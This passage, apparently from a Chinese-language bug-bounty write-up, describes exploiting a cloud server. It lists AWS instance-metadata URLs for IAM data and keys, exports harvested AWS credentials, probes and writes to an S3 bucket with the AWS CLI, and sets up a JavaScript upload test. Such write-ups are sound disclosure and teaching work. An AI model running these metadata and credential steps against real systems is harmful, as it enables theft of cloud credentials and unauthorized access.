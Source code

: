 我们能够提取所有这些端点。  
```
http://169.254.169.254/latest/meta-data/block-device-mapping/
http://169.254.169.254/latest/meta-data/security-groups
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/info
http://169.254.169.254/latest/meta-data/mac
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/signature
http://169.254.169.254/latest/dynamic/instance-identity/pkcs7
http://169.254.169.254/latest/dynamic/instance-identity/rsa2048
```  
  
下一步是专注于访问S3桶，并尝试将其升级为RCE（远程代码执行）或识别任何其他漏洞。  
  
使用凭据访问AWS  
```
export AWS_ACCESS_KEY_ID= [Your_Access_Key]
export AWS_SECRET_ACCESS_KEY= [SecretKey]
export AWS_SESSION_TOKEN= [Token]
export AWS_DEFAULT_REGION= [Region]
```  
  
我们尝试了“get-caller-identity”命令，以返回用于调用该操作的IAM用户或角色的详细信息。  
```
aws sts get-caller-identity
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSG1vWNWZbMrK1a2aYkN3LAEGbZuumDXRplmQ3qliaMm3ZibSUasr72yUPicaJSlUVSmLxd6RfBiaLHdvw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
我们尝试了命令来获取该桶中上传的文件列表。  
```
aws s3 ls s3://<bucket's_name>
```  
  
我们得到了“权限拒绝”的响应。  
  
我们尝试了几个命令，但不幸的是得到了相同的禁止结果（“权限拒绝”），似乎IAM用户的权限较低。我们还尝试了使用命令上传文件。  
```
echo "POC By Drakenkun & Bedo" > POC.txt
aws s3 CP POC.txt s3://<bucket's_name>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSG1vWNWZbMrK1a2aYkN3LAEUVL2EC6V87aVNrbnlhKM2iaPibatfbI6w2Lhx3zJ8NA95S0as9OelUxw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
访问 URL “https://[redacted].s3.region.amazonaws.com/POC.txt” 后  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSG1vWNWZbMrK1a2aYkN3LAERIVTF6AUCMR38j2aNh3prSppZXlzgG4icgllVqTt5BmbXT1adm5J5RQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
我们尝试上传一个简单的 HTML 文件，其中包含通过 JavaScript 显示警告消息的代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSG1vWNWZbMrK1a2aYkN3LAEsKxIjI1Mdk0azdoLR9uGbHr4WJ3Qcay5YFCvqkAvpYIdyDF4bojVRQ/640?wx_fmt=png&from=appmsg "null")  
  